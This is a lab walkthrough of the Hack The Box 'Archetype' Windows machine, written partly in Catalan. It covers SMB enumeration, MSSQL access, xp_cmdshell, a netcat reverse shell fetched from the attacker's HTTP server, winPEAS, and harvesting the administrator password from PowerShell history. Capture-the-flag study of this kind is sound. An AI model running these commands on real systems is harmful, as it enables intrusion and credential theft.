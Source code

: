 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 | Yes |


# Thought process
1. Common enumeration
2. Check `smbclient`
3. Use `impacket`
4. Try to execute reverse shell and find the user flag.
5. Privilege Escalation to find root flag.


# smbclient
> Check Samba Server from Linux
```bash
$ smbclient -N -L @Target_IP
```
[-N]: Suppresess the normal password prompt from the client to the user
[-L]: List what services are aviable

There's a folder call it "backups" that probably has more information.

> Access Samba folder
```bash
$ smbclient -N \\\\@Target_IP\\folder_name
```

`get file_name` To download file to our local machine.
[//]: The file is located in the directory from which the connection was established.

In these file we can see that there's a usrname:password.

```
ARCHETYPE\ sql_svc
M3g4c0rp123
```


# impacket
Collection of Python classes for working with network protocols. 
Impacket  is focused on providing low-level programmatic access to the packets and for some protocols. 

Download [Link](https://github.com/SecureAuthCorp/impacket)

> Connect to MSSQL
```bash
~/HTB/impacket/examples
└─$ python3 mssqlclient.py username@Target_IP -windows-auth
```
[-windows-auth]: Use Windows Authentication (Default False)


# MSSQL Server
Exploration Journey Link:
[Link 1](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
[Link 2](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

First check what role does the user has `SELECT is_srvrolemember('sysadmin');`
[//]: 1 = True

We can set up command execution because the user has admin privileges.

>  Set up System Command Execution
```sql 
SQL> EXEC sp_configure 'show advanced options', 1; — priv  
SQL> RECONFIGURE; — priv 
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1; — priv  
SQL> RECONFIGURE; — priv
```
[//]: Found in Link 2
[- priv]: Administrator privileges need it.

Now the server permits system commands.

> Test System Commands Execution
```SQL
SQL> xp_cmdshell "whoami";
```


# Reverse Shell
Now, attempt to get stable reverse shell. 
Use `nc64.exe` to execute interactive `cmd.exe` process on our listening port.
Download [Link](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

> Simple HTTP server
```bash
$ sudo python3 -m http.server 80
```

> Netcat Listener
```bash
$ sudo nc -lvnp 443
```
[netcat]: Read and Write data in the network.
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

Check the actual server directory. If the user doesn't have permission, change it.

> Current Server Directory
```sql
SQL> xp_cmdshell "powershell -c pwd";
```

In the current directory sql_svc does not have permission to execute things. 

> Change to user directory and execute Reverse shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IP/nc64.exe -outfile nc64.exe"
```

Verify if  the simple Python HTTP server recibed the request

> Execute Reverse Shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe @IP 443"
```

Now look back to the listener to confirme that reverse shell is working.

The user flag is in the user's Desktop.

---

# Privilege Escalation
## winPEAS
Is Windows Local Privilege Escalation Vector tool .
Download [Link](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

Transfer winPEAS to the target machine using Python HTTP server.

> Simple HTTP Server
```bash
$ sudo python3 -m http.server 80
```

On the Target Machine, execute wget in order to download the program from the Local Machine. Use powershell to do this process.
```bash
powershell
wget http://@IP/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: User must have permission in that directory

> Exectue winPEAS
```bash
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

Can observer that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which is also vulnerable to [juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato).

sql_svc is a normal user so it's worth checking for frequently access files or executed commands. Check the Powershell history file `ConsoleHost_history.txt`.

```bash
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

The file contains Administrator password.
> Bounty
```
administrator
MEGACORP_4dm1n!!
```


---

# Privilegie Escalation

Utilitzarem l'eina WinPeas. Primer descarreguem en local i despres la solicitem desde la màquina. 
(Continuar fent escolta en el port 80 amb python)
[Link descarrega](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

Executar escolta en port 80 desde l'ubicació on està el winPEAS. Fer `wget` de l'arxiu

```powershell
wget http://10.10.14.123/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: S'ha d'estar en un directori on l'usuari tingui permissos.

Executem el binari utilitzant la reverse shell
```powershell
.\winPEASx64.exe
```

Podem observat que hi ha `SeImpersonatePrivilege` [Link](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) i aquest es vulnerable a "[juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)". Però abans mirem si hi ha arxius que puguin contindre passwords.

Com que 'sql_svc' es un usuari normal, podem mirar el equivalent al '.bashrc' de powershell.
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

El fitxer conté la contrasenya de administrador.
administrator:MEGACORP_4dm1n!!

Ara podem executar `psexec.py` desde impacket per tenir una shell com Administrador.

```bash
$ python3 psexec.py administrator@Target_IP
```
![[Pasted image 20220528174919.png]]
La root flag es troba en el desktop de l'usuari










